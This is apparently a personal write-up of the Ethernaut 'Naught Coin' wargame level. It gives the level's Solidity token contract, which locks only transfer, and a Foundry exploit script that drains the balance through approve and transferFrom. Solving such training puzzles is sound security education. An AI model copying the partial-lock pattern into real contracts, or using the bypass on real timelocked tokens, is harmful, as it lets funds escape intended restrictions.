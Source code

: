 ```yaml
---
title: "Naught Coin"
date: "2024-02-23"
lastmod: "2024-02-24T11:31:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
weight: 16
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/15"
next: "Preservation-15486d553b7048eba93be9c33dcdd447"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "5013cfef-45d6-46e6-93a6-feaac127ac33"
  created_time: "2024-02-23T14:37:00.000Z"
  last_edited_time: "2024-02-24T11:31:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "GateKeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-23"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 16
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/15"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Preservation-15486d553b7048eba93be9c33dcdd447"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Preservation-15486d553b7048eba93be9c33dcdd447"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Naught Coin"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught Coin"
          href: null
  url: "https://www.notion.so/Naught-Coin-5013cfef45d646e693a6feaac127ac33"
  public_url: null
UPDATE_TIME: "2024-02-24T12:12:29.252Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


NaughtCoin is an
 ERC20 token and you're already holding all of them. The catch is that 
you'll only be able to transfer them after a 10 year lockout period. Can
 you figure out how to get them out to another address so that you can 
transfer them freely? Complete this level by getting your token balance 
to 0.


Things that might help

- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,NaughtCoin} from "../src/15.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address publicKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_15");

        vm.startBroadcast(deployerPrivateKey);

        Attacker attacker = new Attacker();
        NaughtCoin nc = NaughtCoin(addr);

        nc.approve(address(attacker), nc.balanceOf(publicKey));

        attacker.attack(address(nc));

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface NaughtCoin {
  function transfer(address _to, uint256 _value) external returns(bool);
  function approve(address spender, uint256 value) external returns (bool);
  function transferFrom(address from, address to, uint256 value) external returns (bool);
  function balanceOf(address account) external view returns (uint256);
}

contract Attacker {
  function attack(address _addr) public {
    NaughtCoin nc = NaughtCoin(_addr);
    nc.transferFrom(msg.sender, address(this), nc.balanceOf(msg.sender));
  }
}
```


When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might  scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

